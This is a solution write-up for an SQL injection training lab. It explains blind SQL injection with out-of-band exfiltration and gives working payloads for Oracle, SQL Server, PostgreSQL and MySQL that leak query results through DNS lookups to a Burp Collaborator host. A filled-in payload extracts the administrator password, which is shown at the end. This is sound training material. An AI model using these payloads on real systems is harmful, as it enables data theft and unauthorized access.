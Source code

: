 # Lab: Blind SQL injection with out-of-band data exfiltration

## Lab

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the `password` of the `administrator` user.

To solve the lab, log in as the `administrator` user. 

## Hint

You can find some useful payloads on our SQL injection cheat sheet. 

## Solution

When a request containing a `TrackingId` cookie is processed, the application determines whether this is a known user using an SQL query like this: 
```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

Now, suppose that the application carries out the same SQL query, but does it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute an SQL query using the tracking cookie. The query is still vulnerable to SQL injection, however none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. But more powerfully, data can be exfiltrated directly within the network interaction itself.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.

The easiest and most reliable way to use out-of-band techniques is using Burp Collaborator. This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Support for Burp Collaborator is built in to Burp Suite Professional with no configuration required.

The techniques for triggering a DNS query are highly specific to the type of database being used:
|SQL Server |Payload                                                                                                                                        |
|-----------|-----------------------------------------------------------------------------------------------------------------------------------------------|
|Oracle     |<code>SELECT EXTRACTVALUE(xmltype('\<?xml version="1.0" encoding="UTF-8"?>\<!DOCTYPE root [ \<!ENTITY % remote SYSTEM "http://'&#124;&#124;(SELECT YOUR-QUERY-HERE)&#124;&#124;'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual</code>|
|Microsoft  |<code>declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')</code>|
|PostgreSQL |<code>create OR replace function f() returns void as \$\$ <br /> declare c text;<br />declare p text <br /> begin <br /> SELECT into p (SELECT YOUR-QUERY-HERE); <br /> c := 'copy (SELECT '''') to program ''nslookup \'&#124;&#124;p&#124;&#124;\'.BURP-COLLABORATOR-SUBDOMAIN'''; <br /> execute c; <br /> END; <br /> $$ language plpgsql security definer;<br /> SELECT f();</code>|
|MySQL      |<code>SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code>|


Fuzzing the payloads:
```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.zwz1tw1hc3owwiu588xt4121jspjd8.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual)--'
```

>administrator -  x49qg0lk95ats3cylkuq    